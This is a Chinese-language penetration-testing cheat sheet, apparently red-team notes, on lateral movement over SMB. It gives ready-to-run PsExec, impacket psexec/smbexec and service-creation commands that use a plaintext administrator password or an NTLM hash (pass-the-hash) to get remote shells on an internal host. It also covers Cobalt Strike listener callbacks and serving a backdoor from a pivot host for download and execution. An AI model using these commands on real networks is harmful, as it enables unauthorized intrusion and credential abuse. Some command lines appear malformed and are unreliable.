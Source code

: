 SMB(Server Message Block): 服务器消息块，一种用于网络文件共享的协议。
利用 SMB 服务可以通过明文或 hash 传递来远程执行，条件 445 服务端口开放。
## **官方psexec程序**
psexec可以走SMB、IPC(命名通道)、RPC、共享内存等方式进程通信。会记录大量日志
交互式进程通信的windows 官方工具，可以反弹shell回来。走proxifier的socks代理 本地管理员运行。

```
psexec64.exe  \\192.168.3.32 -u administrator -p admin!@#45 -s cmd
```
上传后门到跳板机的80服务，下载并运行即可上线。


## **impacket套件里的psexec脚本程序，支持hash**
反弹shell，走proxifier的socks代理 本地运行。
psexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.32


## **impacket套件里的smbexec脚本程序，支持hash**
反弹shell，走proxifier的socks代理 本地运行。
```
smbexec ./administrator:admin!@#45@192.168.3.32

smbexec god/administrator:admin!@#45@192.168.3.32

smbexec -hashes: 518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.32

smbexec -hashes:518b98ad4178a53695dc997aa02d455c god/administrator@192.168.3.32

smbexec -hashes god/administrator:518b98ad4178a53695dc997aa02d455c@192.168.3.32
```



## **CS自带插件psexec 直接上线**
CS目录列表-横向移动-psexec ，账号密码或hash，直接监听器上线。
有输入域 如：god，就是域用户账户密码。
没输入域，就是本地用户账户密码


## **官方services服务（不常用）**
走smb的无回显命令
```
service -hashes :518b98ad4178a53695dc997aa02d455c ./administrator:@192.168.3.32 create -name shell -display shellexec -path C:\Windows\System32\shell.exe

services-hashes :518b98ad4178a53695dc997aa02d455c ./administrator:@192.168.3.32 start -name shell
```